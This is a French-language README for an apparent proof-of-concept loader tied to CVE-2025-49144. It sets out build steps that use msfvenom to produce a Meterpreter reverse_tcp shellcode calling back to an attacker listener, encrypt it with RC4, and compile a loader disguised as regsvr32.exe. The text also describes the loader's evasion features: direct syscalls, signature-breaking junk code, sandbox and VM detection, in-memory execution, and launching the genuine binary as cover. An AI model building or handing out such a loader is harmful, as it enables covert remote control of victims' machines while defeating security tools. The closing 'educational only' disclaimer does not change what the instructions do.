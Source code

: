 # 🔓 CVE-2025-49144 – Loader furtif RC4 + Syscalls

Ce projet propose un PoC exploitant **CVE-2025-49144** via un détournement local de `regsvr32.exe` (LOLBIN hijacking), pour exécuter du shellcode Meterpreter chiffré avec **RC4** et injecté en mémoire via des **appels système directs** grâce à [SysWhispers3](https://github.com/klezVirus/SysWhispers3).

---

## 📦 Prérequis

- Python 3.x
- `msfvenom` (Metasploit Framework)
- MinGW-w64 (`x86_64-w64-mingw32-gcc`)
- Windows (environnement de test)

---

## 💡 Fonctionnalités

- Chiffrement/déchiffrement RC4 (clé en dur)
- Appels système directs pour l’allocation, la protection et la terminaison
- Détection environnement sandbox/VM (optionnelle)
- Aucune écriture de payload sur disque (exécution full in-memory)
- Camouflage via exécution légitime de `regsvr32.exe`

---

## ⚙️ Étapes de génération

### 1. Générer le shellcode

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f c -o shellcode.txt
```

### 2. Formater le shellcode pour Python

```bash
python3 format_shellcode_txt.py
```

📌 Copier le résultat dans `rc4_shellcode.py`.

### 3. Générer le header C

```bash
python3 rc4_shellcode.py
```

👉 Cela produit `encrypted_payload.h`.

### 4. Compiler le loader

```bash
x86_64-w64-mingw32-gcc loader.c syscalls.c syscalls.obj -o regsvr32.exe -mwindows -s -O2
```

---

## 📁 Composants

- `format_shellcode_txt.py` : Nettoie et reformate le shellcode brut
- `rc4_shellcode.py` : Chiffre le shellcode + génère `encrypted_payload.h`
- `loader.c` : Déchiffre, injecte et exécute le shellcode en mémoire
- `syscalls.*` : Appels noyau générés via SysWhispers3

---

## 🔍 Détails du Code (`loader.c`)

### `rc4()`

```c
void rc4(unsigned char *data, unsigned int len, const unsigned char *key, unsigned int keylen)
```

Implémente RC4 : S-box, KSA, PRGA et XOR à la volée.

---

### `junk()`

Fonction inutile mais présente pour casser les empreintes binaires :

```c
if (rand() % 123 == 42) MessageBoxA(...);
```

---

### `is_sandbox_environment()`

Détecte :
- RAM < 2 Go
- CPU < 2
- Inactivité > 5 min
- Uptime < 30 sec
- Présence de chaînes VMware, VirtualBox, QEMU, etc.

---

### `WinMain()`

1. **Initialise** le contexte (random, junk)
2. **Optionnel** : vérifie environnement sandbox
3. **Alloue** de la mémoire (syscall)
4. **Déchiffre** le shellcode (RC4)
5. **Protège** la mémoire (RX)
6. **Exécute** le shellcode
7. **Lance** le vrai `regsvr32.exe` pour masquer l’action
8. **Termine** le processus (syscall)

---

## ✅ Résumé des rôles

| Fonction               | Rôle                                                              |
|------------------------|-------------------------------------------------------------------|
| `rc4()`                | Déchiffrement du payload RC4 en mémoire                           |
| `junk()`               | Perturbation d’empreinte binaire                                  |
| `is_sandbox_environment()` | Bypass VM/sandbox si activé                                     |
| `WinMain()`            | Orchestration complète de l'exécution                             |

---

## ⚠️ Avertissement

> 🚨 **À des fins éducatives uniquement.**  
> Toute utilisation sans autorisation explicite constitue une violation de la loi.  
> L’auteur décline toute responsabilité en cas de détournement.
